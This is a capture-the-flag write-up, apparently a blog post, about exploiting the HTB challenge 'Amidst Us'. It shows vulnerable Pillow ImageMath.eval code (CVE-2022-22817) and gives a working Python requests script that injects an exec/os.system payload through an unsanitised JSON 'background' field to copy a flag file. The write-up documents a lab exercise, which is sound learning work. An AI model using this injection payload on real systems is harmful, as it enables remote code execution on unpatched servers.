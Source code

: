 ```yaml
---
layout: post
title:  "HTB CTF - Amidst Us writeup"
date:   2022-05-20 08:30:00
tags: ["ctf-writeup"]
author: "Alex Ward"
---
```


On starting the container and visiting the site you are greeted
with a dark site with a "flash light" effect. Functionality is
limited, you can select a colour, and upload a file.

Inspecting the source there is a route `/api/alphafy` that accepts
some JSON, expected in the following format:

```json
{
    "image": "string",
    "background": "array"
}
```

The vulnerability appears to be in the `ImageMath.eval` function
call in `make_alpha`:

```python
def make_alpha(data):
	color = data.get('background', [255,255,255])

	try:
		dec_img = base64.b64decode(data.get('image').encode())

		image = Image.open(BytesIO(dec_img)).convert('RGBA')
		img_bands = [band.convert('F') for band in image.split()]
		alpha = ImageMath.eval(
			f'''float(
				max(
				max(
					max(
					difference1(red_band, {color[0]}),
```

[CVE-2022-22817](https://security.snyk.io/vuln/SNYK-PYTHON-PILLOW-2331901)

There isn't any sanitising on the `"background"` input, so we can
use this for injecting a string into the eval function.

After finding a [valid tiny base64 encoded png](https://stackoverflow.com/a/36610159/7220776)
for the `"image"` input, it was time to craft a payload.

Tesing locally I had

```python
"exec(\"import os; os.system(\'cat ../flag.txt > ./application/static/uploads/flag.txt\');\")"
```

but it was causing the flask process to crash with a seg fault...

I tried my luck on the remote container, and thankfully there was a
restart policy in place, and the container came back up with the flag
where I wanted it.


```python
import requests

TARGET_HOST = "<host>:<port>"

res = requests.post(
    url=f"http://{TARGET_HOST}/api/alphafy",
    headers={
        "Content-Type": "application/json"
    },
    json={
        "image": "iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAQAAAC1HAwCAAAAC0lEQVQYV2NgYAAAAAMAAWgmWQ0AAAAASUVORK5CYII=",
        "background": [
            "exec(\"import os; os.system(\'cat /flag.txt > ./application/static/uploads/flag.txt\');\")", 255, 255]
    }
)
```